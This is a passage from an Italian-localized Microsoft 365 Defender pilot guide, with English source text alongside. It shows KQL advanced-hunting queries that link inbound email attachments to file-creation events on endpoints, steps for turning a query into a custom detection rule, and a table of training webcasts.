5. <span data-ttu-id="5b4d9-330">Includere quindi le informazioni sull'allegato (ad esempio: nome file, hash) nel set di risultati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-330">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="5b4d9-331">A tale scopo, unire la **tabella EmailAttachmentInfo.**</span><span class="sxs-lookup"><span data-stu-id="5b4d9-331">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="5b4d9-332">I campi comuni da utilizzare per l'aggiunta, in questo caso **sono NetworkMessageId** **e RecipientObjectId**.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-332">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

   <span data-ttu-id="5b4d9-333">La query seguente include anche una riga aggiuntiva "| **project-rename EmailTimestamp=Timestamp**" che consente di identificare il timestamp correlato alla posta elettronica e i timestamp correlati alle azioni dei file che verranno aggiunti nel passaggio successivo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-333">The following query also includes an additional line "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. <span data-ttu-id="5b4d9-334">Usa quindi il **valore SHA256** della tabella **EmailAttachmentInfo** per trovare **DeviceFileEvents** (azioni di file eseguite nell'endpoint) per l'hash.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-334">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span> <span data-ttu-id="5b4d9-335">Il campo comune qui sarà l'hash SHA256 per l'allegato.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-335">The common field here will be the SHA256 hash for the attachment.</span></span>

   <span data-ttu-id="5b4d9-336">La tabella risultante ora include i dettagli dell'endpoint (Microsoft Defender for Endpoint), ad esempio il nome del dispositivo, l'azione eseguita (in questo caso filtrata per includere solo gli eventi FileCreated) e la posizione in cui è stato archiviato il file.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-336">The resulting table now includes details from the endpoint (Microsoft Defender for Endpoint) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="5b4d9-337">Verrà incluso anche il nome dell'account associato al processo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-337">The account name associated with the process will also be included.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   <span data-ttu-id="5b4d9-338">A questo punto è stata creata una query che identificherà tutti i messaggi di posta elettronica in ingresso in cui l'utente ha aperto o salvato l'allegato.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-338">You've now created a query that'll identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="5b4d9-339">È inoltre possibile perfezionare questa query in modo da filtrare i domini del mittente specifici, le dimensioni dei file, i tipi di file e così via.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-339">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7. <span data-ttu-id="5b4d9-340">Le funzioni sono un tipo speciale di join, che ti consente di estrarre più dati TI su un file come la diffusione, le informazioni sul firmatario e sull'autorità emittente e così via. Per ottenere ulteriori dettagli sul file, utilizzare la **funzione FileProfile():**</span><span class="sxs-lookup"><span data-stu-id="5b4d9-340">Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc. To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a><span data-ttu-id="5b4d9-341">Creare un rilevamento</span><span class="sxs-lookup"><span data-stu-id="5b4d9-341">Create a detection</span></span>

<span data-ttu-id="5b4d9-342">Dopo aver creato una query che identifica le  informazioni di cui si desidera ricevere un avviso se si verificano in futuro, è possibile creare un rilevamento personalizzato dalla query.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-342">Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span>

<span data-ttu-id="5b4d9-343">I rilevamenti personalizzati eseguiranno la query in base alla frequenza impostata e i risultati delle query creeranno avvisi di sicurezza, in base alle risorse selezionate.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-343">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="5b4d9-344">Tali avvisi saranno correlati agli eventi imprevisti e possono essere valutati come qualsiasi altro avviso di sicurezza generato da uno dei prodotti.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-344">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1. <span data-ttu-id="5b4d9-345">Nella pagina della query rimuovere le righe 7 e 8 aggiunte al passaggio 7 delle istruzioni di ricerca Go e fare clic **su Crea regola di rilevamento.**</span><span class="sxs-lookup"><span data-stu-id="5b4d9-345">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span>

   

   > [!NOTE]
   > <span data-ttu-id="5b4d9-347">Se si fa **clic su Crea** regola di rilevamento e si verificano errori di sintassi nella query, la regola di rilevamento non verrà salvata.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-347">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won't be saved.</span></span> <span data-ttu-id="5b4d9-348">Verificare che la query non presenti errori.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-348">Double-check your query to ensure there's no errors.</span></span>

2. <span data-ttu-id="5b4d9-349">Compilare i campi obbligatori con le informazioni che consentiranno al team di sicurezza di comprendere l'avviso, il motivo per cui è stato generato e le azioni previste.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-349">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span>

   

   <span data-ttu-id="5b4d9-351">Assicurarsi di compilare i campi con chiarezza per fornire all'utente successivo una decisione informata su questo avviso della regola di rilevamento</span><span class="sxs-lookup"><span data-stu-id="5b4d9-351">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span>

3. <span data-ttu-id="5b4d9-352">Selezionare le entità che vengono influenzate in questo avviso.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-352">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="5b4d9-353">In questo caso, selezionare **Dispositivo** e **cassetta postale**.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-353">In this case, select **Device** and **Mailbox**.</span></span>

   

4. <span data-ttu-id="5b4d9-355">Determinare quali azioni devono essere eseguite se l'avviso viene attivato.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-355">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="5b4d9-356">In questo caso, eseguire un'analisi antivirus, anche se è possibile eseguire altre azioni.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-356">In this case, run an antivirus scan, though other actions could be taken.</span></span>

   

5. <span data-ttu-id="5b4d9-358">Selezionare l'ambito per la regola di avviso.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-358">Select the scope for the alert rule.</span></span> <span data-ttu-id="5b4d9-359">Poiché questa query coinvolge i dispositivi, i gruppi di dispositivi sono rilevanti in questo rilevamento personalizzato in base al contesto di Microsoft Defender for Endpoint.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-359">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender for Endpoint context.</span></span> <span data-ttu-id="5b4d9-360">Quando si crea un rilevamento personalizzato che non include i dispositivi come entità influenzate, l'ambito non si applica.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-360">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>

   

   <span data-ttu-id="5b4d9-362">Per questo progetto pilota, è consigliabile limitare questa regola a un sottoinsieme di dispositivi di testing nell'ambiente di produzione.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-362">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6. <span data-ttu-id="5b4d9-363">Selezionare **Crea**.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-363">Select **Create**.</span></span> <span data-ttu-id="5b4d9-364">Seleziona quindi **Regole di rilevamento personalizzate** nel riquadro di spostamento.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-364">Then, select **Custom detection rules** from the navigation panel.</span></span>

   

   

   <span data-ttu-id="5b4d9-367">Da questa pagina è possibile selezionare la regola di rilevamento, che aprirà una pagina dei dettagli.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-367">From this page, you can select the detection rule, which will open a details page.</span></span>

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="5b4d9-369">Ulteriori esercizi di ricerca avanzata</span><span class="sxs-lookup"><span data-stu-id="5b4d9-369">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="5b4d9-370">Per ulteriori informazioni sulla ricerca avanzata, i webcast seguenti illustrano le funzionalità di ricerca avanzata in Microsoft 365 Defender per creare query tra pilastri, eseguire pivot in entità e creare rilevamenti personalizzati e azioni di correzione.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-370">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft 365 Defender to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

> [!NOTE]
> <span data-ttu-id="5b4d9-371">Prepararsi con il proprio account GitHub per eseguire le query di ricerca nell'ambiente del laboratorio di testing pilota.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-371">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>

|<span data-ttu-id="5b4d9-372">Titolo</span><span class="sxs-lookup"><span data-stu-id="5b4d9-372">Title</span></span>|<span data-ttu-id="5b4d9-373">Descrizione</span><span class="sxs-lookup"><span data-stu-id="5b4d9-373">Description</span></span>|<span data-ttu-id="5b4d9-374">Scaricare MP4</span><span class="sxs-lookup"><span data-stu-id="5b4d9-374">Download MP4</span></span>|<span data-ttu-id="5b4d9-375">Guarda su YouTube</span><span class="sxs-lookup"><span data-stu-id="5b4d9-375">Watch on YouTube</span></span>|<span data-ttu-id="5b4d9-376">File CSL da utilizzare</span><span class="sxs-lookup"><span data-stu-id="5b4d9-376">CSL file to use</span></span>|
|---|---|---|---|---|
|<span data-ttu-id="5b4d9-377">Episodio 1: Nozioni fondamentali su KQL</span><span class="sxs-lookup"><span data-stu-id="5b4d9-377">Episode 1: KQL fundamentals</span></span>|<span data-ttu-id="5b4d9-378">Verranno trattate le nozioni di base delle funzionalità avanzate di ricerca in Microsoft 365 Defender.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-378">We'll cover the basics of advanced hunting capabilities in Microsoft 365 Defender.</span></span> <span data-ttu-id="5b4d9-379">Informazioni sui dati di ricerca avanzati disponibili e sulla sintassi e sugli operatori KQL di base.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-379">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span>|[<span data-ttu-id="5b4d9-380">MP4</span><span class="sxs-lookup"><span data-stu-id="5b4d9-380">MP4</span></span>](https://aka.ms/MTP15JUL20_MP4)|[<span data-ttu-id="5b4d9-381">YouTube</span><span class="sxs-lookup"><span data-stu-id="5b4d9-381">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM)|[<span data-ttu-id="5b4d9-382">Episodio 1: file CSL in Git</span><span class="sxs-lookup"><span data-stu-id="5b4d9-382">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|<span data-ttu-id="5b4d9-383">Episodio 2: Join</span><span class="sxs-lookup"><span data-stu-id="5b4d9-383">Episode 2: Joins</span></span>|<span data-ttu-id="5b4d9-384">Continueremo a conoscere i dati nella ricerca avanzata e su come unire le tabelle.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-384">We'll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="5b4d9-385">Informazioni sui join interni, esterni, univoci e semi e sulle sfumature dell'innerunique join Kusto predefinito.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-385">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span>|[<span data-ttu-id="5b4d9-386">MP4</span><span class="sxs-lookup"><span data-stu-id="5b4d9-386">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4)|[<span data-ttu-id="5b4d9-387">YouTube</span><span class="sxs-lookup"><span data-stu-id="5b4d9-387">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU)|[<span data-ttu-id="5b4d9-388">Episodio 2: file CSL in Git</span><span class="sxs-lookup"><span data-stu-id="5b4d9-388">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|<span data-ttu-id="5b4d9-389">Episodio 3: Riepilogo, pivot e visualizzazione dei dati</span><span class="sxs-lookup"><span data-stu-id="5b4d9-389">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="5b4d9-390">Ora che siamo in grado di filtrare, modificare e unire i dati, è il momento di iniziare a riepilogare, quantificare, eseguire pivot e visualizzare.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-390">Now that we're able to filter, manipulate, and join data, it's time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="5b4d9-391">In questo episodio verrà descritto l'operatore di riepilogo e alcuni dei calcoli che è possibile eseguire durante l'immersione in tabelle aggiuntive nello schema di ricerca avanzata.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-391">In this episode, we'll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="5b4d9-392">I set di dati vengono trasformati in grafici che consentono di migliorare l'analisi.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-392">We turn our datasets into charts that can help improve analysis.</span></span>|[<span data-ttu-id="5b4d9-393">MP4</span><span class="sxs-lookup"><span data-stu-id="5b4d9-393">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4)|[<span data-ttu-id="5b4d9-394">YouTube</span><span class="sxs-lookup"><span data-stu-id="5b4d9-394">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y)|[<span data-ttu-id="5b4d9-395">Episodio 3: file CSL in Git</span><span class="sxs-lookup"><span data-stu-id="5b4d9-395">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|<span data-ttu-id="5b4d9-396">Episodio 4: Diamo la caccia!</span><span class="sxs-lookup"><span data-stu-id="5b4d9-396">Episode 4: Let's hunt!</span></span> <span data-ttu-id="5b4d9-397">Applicazione di KQL al rilevamento degli eventi imprevisti</span><span class="sxs-lookup"><span data-stu-id="5b4d9-397">Applying KQL to incident tracking</span></span>|<span data-ttu-id="5b4d9-398">È ora di tenere traccia di alcune attività degli utenti malintenzionati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-398">Time to track some attacker activity!</span></span> <span data-ttu-id="5b4d9-399">In questo episodio useremo la nostra migliore comprensione di KQL e ricerca avanzata in Microsoft 365 Defender per tenere traccia di un attacco.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-399">In this episode, we'll use our improved understanding of KQL and advanced hunting in Microsoft 365 Defender to track an attack.</span></span> <span data-ttu-id="5b4d9-400">Scopri alcuni dei suggerimenti e dei trucchi usati nel campo per tenere traccia dell'attività degli utenti malintenzionati, tra cui gli ABC della cybersecurity e come applicarli alla risposta agli incidenti.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-400">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span>|[<span data-ttu-id="5b4d9-401">MP4</span><span class="sxs-lookup"><span data-stu-id="5b4d9-401">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4)|[<span data-ttu-id="5b4d9-402">YouTube</span><span class="sxs-lookup"><span data-stu-id="5b4d9-402">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8)|[<span data-ttu-id="5b4d9-403">Episodio 4: file CSL in Git</span><span class="sxs-lookup"><span data-stu-id="5b4d9-403">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a><span data-ttu-id="5b4d9-404">Passaggio successivo</span><span class="sxs-lookup"><span data-stu-id="5b4d9-404">Next step</span></span>

|<span data-ttu-id="5b4d9-405"></span><span class="sxs-lookup"><span data-stu-id="5b4d9-405"></span></span> <br>[<span data-ttu-id="5b4d9-406">Fase di chiusura e riepilogo</span><span class="sxs-lookup"><span data-stu-id="5b4d9-406">Closing and summary phase</span></span>](m365d-pilot-close.md)|<span data-ttu-id="5b4d9-407">Analizzare il risultato pilota di Microsoft 365 Defender, presentarlo agli stakeholder ed eseguire il passaggio successivo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-407">Analyze your Microsoft 365 Defender pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|
